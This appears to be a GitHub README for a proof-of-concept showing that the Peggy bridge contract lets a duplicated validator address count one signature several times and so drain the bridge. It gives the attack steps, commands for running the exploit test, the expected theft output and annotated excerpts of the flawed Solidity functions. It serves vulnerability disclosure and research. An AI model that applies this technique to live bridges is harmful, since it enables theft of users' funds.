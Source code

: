 # Peggy Bridge Validator Duplication Vulnerability PoC

This project demonstrates a critical vulnerability in the Peggy bridge smart contract that allows an attacker to bypass validator consensus requirements through validator address duplication, leading to complete drainage of bridge funds.

## Vulnerability Overview

**Severity:** Critical  
**Impact:** Complete loss of all bridged assets  
**Root Cause:** Lack of validator address uniqueness validation in `updateValset` and power double-counting in `checkValidatorSignatures`

The Peggy bridge contract fails to validate that validator addresses in a new validator set are unique. An attacker can exploit this by proposing a validator set containing their own address multiple times, then use a single signature repeatedly to amplify their voting power beyond the required threshold.

## Technical Details

### Core Vulnerability

The vulnerability exists in two functions:

1. **`updateValset`** - Accepts validator sets without checking for duplicate addresses
2. **`checkValidatorSignatures`** - Counts voting power for each signature position independently, allowing the same validator's power to be counted multiple times

### Attack Flow

1. **Malicious Validator Set Injection:** Attacker calls `updateValset` with a validator set where their address appears multiple times:
   ```
   validators: [AttackerAddress, AttackerAddress, AttackerAddress]
   powers:     [34%, 33%, 33%]
   ```

2. **Power Amplification:** Once the malicious set is active, attacker calls `submitBatch` providing the same signature three times. The contract incorrectly calculates their power as 34% + 33% + 33% = 100%, far exceeding the 67% threshold.

3. **Fund Drainage:** With amplified voting power, the attacker can unilaterally approve any transaction batch, draining all bridge funds.

## Prerequisites

- [Foundry](https://getfoundry.sh/) installed
- Git

## Setup and Execution

### Clone and Setup

```bash
git clone https://github.com/Ani07-05/peggy-poc
cd peggy-poc
forge install
```

### Run the Exploit

```bash
forge test --match-test test_exploitValidatorDuplication -vvv
```

### Expected Output

The test demonstrates a complete bridge drain:

```
--- Initial State ---
Peggy Bridge Balance: 1,000,000 DUMMY tokens
Attacker Balance: 0 DUMMY tokens

--- Attack Step 1: Proposing Malicious Valset ---
Success: Malicious validator set has been approved and is now active.

--- Attack Step 2: Draining Funds with Amplified Power ---
Success: submitBatch executed with a single signature.

--- Final State ---
Peggy Bridge Balance: 0 DUMMY tokens
Attacker Balance: 1,000,000 DUMMY tokens

Vulnerability Confirmed: All funds stolen.
```

## Vulnerability Details

### Affected Functions

**`updateValset` Function:**
```solidity
function updateValset(
    ValsetArgs calldata _newValset,
    // ...
) external whenNotPaused {
    // CRITICAL FLAW: No uniqueness check for validator addresses
    // in _newValset.validators array
    
    bytes32 newCheckpoint = makeCheckpoint(_newValset, state_peggyId);
    checkValidatorSignatures(/* ... */);
    
    // Malicious checkpoint gets saved
    state_lastValsetCheckpoint = newCheckpoint;
}
```

**`checkValidatorSignatures` Function:**
```solidity
function checkValidatorSignatures(
    address[] memory _currentValidators,
    uint256[] memory _currentPowers,
    // ...
) private pure {
    uint256 cumulativePower = 0;
    for (uint256 i = 0; i < _currentValidators.length; i++) {
        // Signature verification passes for duplicate validators
        require(verifySig(/* ... */), "Validator signature does not match.");
        
        // CRITICAL FLAW: Same validator's power counted multiple times
        cumulativePower = cumulativePower + _currentPowers[i];
    }
}
```

### Impact Assessment

- **Complete Fund Loss:** Attacker gains full control over bridge assets
- **Protocol Insolvency:** Bridge becomes unable to honor withdrawal requests  
- **Trust Destruction:** Permanent damage to protocol reputation
- **Operational Shutdown:** Bridge functionality becomes permanently compromised

## Test Details

The proof of concept test (`test_exploitValidatorDuplication`) demonstrates:

1. Initial bridge setup with 1,000,000 test tokens
2. Honest validator set with 3 validators and 67% power threshold
3. Malicious validator set proposal with duplicated attacker address
4. Successful validation bypass using single signature
5. Complete fund drainage to attacker wallet

## Verification

The vulnerability can be verified by:

1. Examining the test output showing 100% fund transfer
2. Checking that only a single validator signature was used
3. Confirming the power threshold bypass mechanism
4. Validating the permanent nature of the exploit


https://github.com/user-attachments/assets/b1e9c2b1-e518-40e1-b5e4-8384eaa7b36c

## Disclaimer

This code is provided for educational and security research purposes only. Do not use this exploit against any production systems. The authors are not responsible for any misuse of this information.

